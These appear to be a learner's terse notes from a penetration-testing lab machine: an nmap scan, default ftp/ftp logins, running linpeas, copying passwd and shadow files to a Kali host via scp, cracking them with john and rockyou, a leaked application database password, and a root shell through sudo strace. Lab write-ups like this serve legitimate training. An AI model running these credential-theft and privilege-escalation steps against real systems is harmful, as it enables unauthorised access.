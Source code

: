 nmap scan 
nmap -p- -sV -sC -Pn 192.168.102.110 --open
port 21 ftp enabled
tried with anonymous not allowed
tried with ftp ftp, successful
empty ftp
no permission to upload
gobuster common
gobuster big
tried ssh with ftp ftp
got local flag
sudo -l for ftp nothing
uploaded linpeas
linpeas indicated passwd and backup file in /mnt/backup/etc
copied hashes of root lisa and ftp to kali in passwd.txt and shadow.txt
unshadow passwd.txt shadow.txt > unshadowed.txt 
used john with rockyou.txt for cracking hashes
got password of lisa
ssh with lisa crede










	
	21
		uname - ftp
		pass - ftp
		but nothing after, hangs, no output
			got it, but ftp is empty, probably for file upload and accessing through web or maybe there is another ftp user
			permission denied for uploading files on ftp
			
		
	22
		ssh with ftp/ftp successfull
	53 domain
	80
		blank home page
		Apache 2.4.52 ubuntugobuster with common, big and medium no results
	Privesc
		3306 on localhost
			APP_KEY=base64:yN/2x7bTc/KG/T0BZvL8s1W4N4+Y87PXRvJm8iPWzE=
			APP_DEBUG=true
			APP_URL=http://localhost
			DB_CONNECTION=mysql
			DB_HOST=127.0.0.1
			DB_PORT=3306
			DB_DATABASE=creds
			DB_USERNAME=root
			DB_PASSWORD=Strong.DB?Password

		users clay, lisa
		/home/lisa/.bash_history
		/home/lisa/.mysql_history
		/mnt/backup/etc/adduser.conf
		passwd and shadow file /mnt/backup/etc
		scp /mnt/backup/etc/passwd kali@192.168.49.102:.
		john --wordlist=/usr/share/wordlists/rockyou.txt unshade.txt --format=crypt
		lisa peanut.
		sudo -l
		sudo strace -o /dev/null /bin/sh





